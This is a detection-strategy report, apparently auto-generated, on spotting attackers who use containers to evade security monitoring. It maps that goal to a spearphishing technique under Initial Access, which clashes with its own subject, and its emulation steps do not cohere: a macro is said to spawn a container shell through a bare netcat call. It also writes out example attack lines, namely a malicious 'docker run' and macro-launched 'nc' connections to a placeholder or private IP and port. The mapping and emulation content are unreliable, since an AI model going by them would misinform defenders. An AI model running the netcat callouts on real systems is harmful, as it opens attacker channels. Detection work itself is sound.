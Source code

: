 # Alerting & Detection Strategy (ADS) Report: Detect Adversarial Attempts to Bypass Security Monitoring Using Containers

## Goal
The primary goal of this technique is to detect adversarial attempts aimed at bypassing security monitoring systems through the use of containers. This includes identifying adversaries who may leverage container technology on macOS, Windows, and Linux platforms to evade detection while executing malicious activities.

## Categorization
- **MITRE ATT&CK Mapping:** T1566.001 - Spearphishing Attachment
- **Tactic / Kill Chain Phases:** Initial Access
- **Platforms:** macOS, Windows, Linux
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1566/001)

## Strategy Abstract
The detection strategy focuses on identifying suspicious behaviors associated with container usage that may indicate an adversarial attempt to bypass security monitoring. The following data sources are utilized:

1. **Container Logs:** Monitor for unusual activities within container logs, such as unexpected process spawning or network connections.
2. **Network Traffic Analysis:** Detect anomalous traffic patterns originating from containers.
3. **File Integrity Monitoring:** Track unauthorized changes to container configurations and images.
4. **Behavioral Analytics:** Analyze behavioral deviations in user actions involving containers.

Patterns analyzed include:
- Unusual command execution within containers, such as spawning shells or accessing external IP addresses.
- Abnormal network traffic patterns that deviate from established baselines.
- Unexpected modifications to container image files or configurations.

## Technical Context
Adversaries often use containers due to their lightweight nature and ability to isolate processes. By executing malicious activities within containers, adversaries attempt to obscure their actions from traditional security monitoring tools. This technique can be executed via:

- **Container-based Malware:** Adversaries may deploy malware inside a container that interacts with external command-and-control servers.
- **Phishing Attachments:** Spearphishing emails containing macro-enabled attachments could execute scripts that initiate malicious containers.

Example commands used by adversaries might include:
```bash
docker run -it --rm <malicious_image> /bin/bash
# or within Word macros:
Shell("cmd.exe /c nc <IP_ADDRESS> <PORT>")
```

## Blind Spots and Assumptions
- **Blind Spots:**
  - Detection systems may not recognize sophisticated evasion techniques that exploit container-specific vulnerabilities.
  - Encrypted traffic within containers can be challenging to inspect for anomalies.

- **Assumptions:**
  - Baselines for normal network and container behavior are well-established.
  - Security teams have the ability to monitor and analyze container logs effectively.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate use of containers by developers or IT operations, especially in environments where container usage is common.
- Temporary spikes in network traffic due to legitimate software updates or deployments involving containers.

## Priority
**Severity:** High

Justification: The ability to evade security monitoring represents a significant threat as it can allow adversaries prolonged access and control over compromised systems. Given the growing adoption of container technology, ensuring robust detection mechanisms is crucial for maintaining organizational security.

## Validation (Adversary Emulation)
To emulate this technique in a test environment, follow these steps:

1. **Set Up Environment:**
   - Deploy a basic Docker setup on macOS, Windows, or Linux.
   
2. **Download Macro-Enabled Phishing Attachment:**
   - Obtain a sample macro-enabled document designed to execute shell commands.

3. **Simulate Adversarial Activity:**
   - Use the document to spawn a command shell within a container environment:
     ```bash
     # Create and run a malicious Docker image
     docker build -t <malicious_image> .
     docker run -it --rm <malicious_image> /bin/bash
     
     # Execute a network command from Word macro simulation
     Shell("cmd.exe /c nc 192.168.1.100 4444")
     ```

## Response
When an alert fires, analysts should:

1. **Isolate the Affected Container:**
   - Halt suspicious container processes and disconnect them from the network.

2. **Analyze Logs and Traffic:**
   - Review container logs and network traffic to identify malicious actions or communication attempts.
   
3. **Investigate Source of Malicious Activity:**
   - Trace back the origin of the suspicious activity, focusing on how the adversarial payload was introduced (e.g., phishing email).

4. **Update Security Measures:**
   - Reinforce container security policies and update detection rules to mitigate future risks.

## Additional Resources
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- Docker Security Best Practices Guide
- Container Security Insights from Palo Alto Networks

By following this ADS framework, organizations can effectively detect and respond to attempts by adversaries to bypass security monitoring using container technology.